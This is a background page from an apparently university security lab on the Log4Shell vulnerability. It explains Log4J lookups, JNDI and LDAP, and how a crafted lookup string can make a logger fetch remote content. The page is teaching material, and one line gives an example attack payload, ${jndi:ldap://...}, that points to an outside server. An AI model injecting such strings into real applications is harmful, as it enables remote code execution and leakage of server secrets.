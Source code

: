 ```yaml
---
layout: default
title: Background
nav_order: 2
parent: Log4Shell
---
```

  
<div style="text-align:center">
  <span style="color: #003057; font-size:36px; font-weight: bold; text-decoration:underline">BACKGROUND</span>
</div>

Log4J is a very popular open-source framework that allows application developers to log important messages such as program flow, program state, exceptions, etc. These messages can include user input, dynamic data, database results, etc.

Java Naming and Directory Interface (JNDI) creates a way for Java Objects to be looked up at runtime. There are many directory interfaces that provide different ways to lookup files. A common example is a database connection pool so that applications deployed on a server can get the connections they need by only needing to know the JNDI name instead of having to have the connection details. You can use Java Serialization to store the byte array representation of an object to store objects in a directory/naming service. JNDI uses Naming References if the object is too large such as “ldap://server/location”

Where this comes into play in this exploit, is the Lightweight Directory Access Protocol (LDAP) which is not specific to Java. LDAP provides the communication language that is required to receive and send information from directory services. It can be used for authentication like sending usernames/passwords or retrieving object data through a url from another server.

To tie this into Log4J, Log4J performs [lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html) which allow for [string substitution](https://logging.apache.org/log4j/2.x/log4j-core/apidocs/org/apache/logging/log4j/core/lookup/StrSubstitutor.html) of certain strings. These are in the form of <span style="font-weight: bold">${prefix:name}</span> i.e. a common one would be <span style="font-weight: bold">${java:runtime}</span> and running this would produce “Running Java version 1.8.0_20”. Here is where the JNDI and LDAP come into play. <span style="font-weight: bold">${jndi:\<lookup\>}</span> is a valid lookup expression recognized by the lookup by Log4J. 

A malicious user could specify a valid lookup protocol such as LDAP, RMI, or DNS in the JNDI lookup and direct the Log4J lookup to their malicious server/file. An example could be <span style="font-weight: bold">${jndi:ldap://cs6035.com/exploitfile}</span> which would load data from that domain if a connection can be established. Attackers can even get environment variables if RCE is disabled and learn about the server/server environment. Often, HTTP requests log header information, query parameters, path parameters, and more which allow a vector for this attack to take place. With this background, now we are ready to start this lab.

Here is a visual of the Log4j exploit and how it is accomplished (you can zoom in if this is too small via ctrl + scroll):

![alt text](/images/Log4Shell.PNG)
